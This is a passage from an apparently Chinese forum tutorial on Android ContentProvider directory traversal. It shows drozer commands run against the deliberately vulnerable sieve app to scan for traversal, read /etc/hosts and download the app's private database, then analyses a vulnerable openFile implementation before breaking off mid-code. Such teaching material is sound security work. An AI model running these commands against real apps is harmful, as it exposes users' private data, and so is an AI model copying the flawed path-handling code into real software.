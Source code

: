 **案例 2：样本 sieve**

 

我们检测文件遍历漏洞：

```
run scanner.provider.traversal -a <包名>

```

![](https://bbs.pediy.com/upload/attach/202109/905443_9B5T695345FCUZF.png)

 

我们读取系统文件：

```
run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts

```

![](https://bbs.pediy.com/upload/attach/202109/905443_PJ4KCCTEB3UEZGM.png)

 

我们下载系统文件：

```
run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db f:/home/database.db

```

![](https://bbs.pediy.com/upload/attach/202109/905443_M3GEQE8EG4QKYFC.png)

 

案例 3：

 

目标代码：

```
private static String IMAGE_DIRECTORY=localFile.getAbsolutePath();
public ParcelFileDescriptor openFile(Uri paramUri,String paramString);
throws FileNotFoundException{
    File file=new File(IMAGE_DIRECTORY,paramUri.getLastPathSegment());
    return ParcelFileDescriptor.open(file,ParcelFileDescriptor.MODE_READ_ONLY);
}

```

我们可以从目标代码中分析，这段代码使用 android.net.Uri.getLastPathSegment() 从 paramUri 中获取文件名，然后将其放置在预定义好的目录 IMAGE_DIRECTORY 中，如果该 URL 是 encoded 编码后的，那么将可能导致目录遍历漏洞

 

Android4.3 开始，Uri.getLastPathSegment() 内部实现调用 Uri.getPathSegments()

```
Uri.getPathSegments()部分代码片段： 
PathSegments getPathSegments(){
    if(pathSegments!=null){
        return pathSegments;
    }
    String path = getEncoded();
    if(path==null){
        return pathSegments = PathSegments.EMPTY;
    }
    PathSegmentsBuilder segmentBuilder=new PathSegmentsBuilder();
    int previous =0;
    int current;
    while((current=path.indexOf('/',previous))>-1){
        if(previous
```